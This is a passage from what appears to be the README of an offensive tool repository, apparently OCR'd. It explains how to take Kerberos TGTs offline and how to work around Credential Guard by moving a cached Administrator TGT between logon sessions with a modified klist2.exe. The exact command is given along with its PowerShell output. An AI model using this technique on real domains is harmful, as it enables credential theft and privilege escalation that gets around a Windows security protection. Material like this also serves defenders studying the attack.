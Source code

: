 The resulting data can be taken offline and converted into CCACHE or KIRBI format to use with other tools or from another system. This is particularly effective for batch or service logons as TGT's can always be refreshed using stored credentials with no need to extract them or know the password of the target account.  Credential Guard can thwart this process by protecting TGT session keys making it significantly harder for this kind of credential theft to occur. You can tell that Credential Guard is enabled by the length of the session key. Notice in the above example our key length is 32 bytes. With Credential Guard you'll see a key length of ~171 bytes:<br>
<br>
PS C:\WINDOWS\system32> klist tgt<br>
<br>
Current LogonId is 0:0x468c4f9<br>
<br>
Cached TGT:<br>
<br>
ServiceName        : krbtgt<br>
TargetName (SPN)   : krbtgt<br>
ClientName         : Administrator<br>
DomainName         : TEST.LOCAL<br>
TargetDomainName   : TEST.LOCAL<br>
AltTargetDomainName: TEST.LOCAL<br>
Ticket Flags       : 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize<br>
Session Key        : KeyType 0x12 - AES-256-CTS-HMAC-SHA1-96<br>
                   : KeyLength 171 - 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00<br>
<br>
While Credential Guard makes things more challenging there are still methods to work around this. First off, Credential Guard protects against removing the TGT from the system, however, as long as the TGT remains on the system where it was originally cached it can be used freely. The klist2.exe tool in this repo is a modified version of Windows builtin klist.exe that makes use of this fact to move TGT's between caches. Using the output from "klist sessions" command we can identify sessions on the target host. We can then move any cached credentials using the modified klist tool with the command "klist2.exe move2 KRBTGT/TEST.LOCAL -li <luid of session we want a ticket from>". In the below example, I move the Administrator TGT cached in LUID  0x14d465 into our current session.<br>
<br>
 PS C:\Users\test\Documents> klist<br>
<br>
Current LogonId is 0:0x467fecc<br>
<br>
Cached Tickets: (1)<br>
<br>
#0>     Client: test @ TEST.LOCAL<br>
        Server: host/sql01.test.local @ TEST.LOCAL<br>
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96<br>
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize<br>
        Start Time: 9/2/2025 11:51:58 (local)<br>
        End Time:   9/2/2025 21:51:24 (local)<br>
        Renew Time: 0<br>
        Session Key Type: AES-256-CTS-HMAC-SHA1-96<br>
        Cache Flags: 0x8 -> ASC<br>
        Kdc Called:<br>
<br>
 PS C:\windows\tasks> .\klist2.exe move2 KRBTGT/TEST.LOCAL -li 0x468c4f9<br>
token is system<br>
Session Key        : KeyType 0x12 - AES-256-CTS-HMAC-SHA1-96<br>
                   : KeyLength 171 - AB 00 00 00 00 00 00 00 17 00 00 00 64 00 00 00 01 00 00 00 01 01 00 00 01 00 00 00 0B 37 53 F3 63 EE 69 BB 93 83 CC 50 E9 3B 47 13 23 64 41 C3 26 33 D0 DE A4 16 67 49 DF A5 FF 76 61 D5 E0 BE 32 47 6B 16 E2 7C 3F E4 F1 F6 C2 35 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00 30 00 00 00 4B 65 72 62 65 72 6F 73 4B 65 79 57 69 74 68 4D 65 74 61 64 61 74 61 F3 F4 62 FA B5 CB BB F1 B3 D0 0A DA 75 6F 6D 09 C0 32 D4 6A 5F 13 7F 08 6B CC 08 A5 77 DD D4 CD E6 52 0B DB CE 05 F9 BF CF 33 0E 09 74 8B 7D 4E<br>